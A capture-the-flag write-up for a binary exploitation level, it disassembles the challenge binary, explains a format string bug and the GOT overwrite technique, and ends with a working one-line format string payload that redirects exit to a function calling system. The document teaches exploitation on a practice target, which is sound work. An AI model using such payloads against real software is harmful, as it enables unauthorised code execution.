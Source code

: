 # level5

```
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    DWORD PTR ds:0x8049838
 80483d6:	68 28 00 00 00       	push   0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>

080484a4 <o>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 ec 18             	sub    esp,0x18
 80484aa:	c7 04 24 f0 85 04 08 	mov    DWORD PTR [esp],0x80485f0
 80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
 80484b6:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>

080484c2 <n>:
 80484c2:	55                   	push   ebp
 80484c3:	89 e5                	mov    ebp,esp
 80484c5:	81 ec 18 02 00 00    	sub    esp,0x218
 80484cb:	a1 48 98 04 08       	mov    eax,ds:0x8049848
 80484d0:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484d4:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484db:	00 
 80484dc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484e2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e5:	e8 b6 fe ff ff       	call   80483a0 <fgets@plt>
 80484ea:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484f0:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f3:	e8 88 fe ff ff       	call   8048380 <printf@plt>
 80484f8:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484ff:	e8 cc fe ff ff       	call   80483d0 <exit@plt>

08048504 <main>:
 8048504:	55                   	push   ebp
 8048505:	89 e5                	mov    ebp,esp
 8048507:	83 e4 f0             	and    esp,0xfffffff0
 804850a:	e8 b3 ff ff ff       	call   80484c2 <n>
 804850f:	c9                   	leave  
 8048510:	c3                   	ret    
 8048511:	90                   	nop
 8048512:	90                   	nop
 8048513:	90                   	nop
 8048514:	90                   	nop
 8048515:	90                   	nop
 8048516:	90                   	nop
 8048517:	90                   	nop
 8048518:	90                   	nop
 8048519:	90                   	nop
 804851a:	90                   	nop
 804851b:	90                   	nop
 804851c:	90                   	nop
 804851d:	90                   	nop
 804851e:	90                   	nop
 804851f:	90                   	nop
```

With this program, we can still exploit a **format string vulnerability**. There is a function `o` that we should gain access to.

There is no apparent way to hijack the control flow. Since there is an `exit` just after the `printf` in function `n`, overwriting the **saved eip** of function `n` so it points to a shellcode would be pointless.

We can write arbitrary values at arbitrary location. We can use an exploit technique which is known as a **GOT overwrite**. The Global Offset Table is used by the program and the **dynamic loader** (ld.so) to resolves shared library call at runtime, since the address of such function cannot be known at compile time.

Looking at the PLT entry of `exit`, we can see that it performs a `jmp` on a address stored inside the GOT :

```
80483d0:	ff 25 38 98 04 08    	jmp    DWORD PTR ds:0x8049838
```

If we overwrite the value stored at address `0x8049838`, we can redirect control flow to the `o` function at `0x080484a4`.

By using techniques shown in previous write-up, we end up with the following payload :

```bash
(python -c 'print("\x38\x98\x04\x08" + "%08x.%08x.%0134513808x.%n")'; cat) | ./level5
```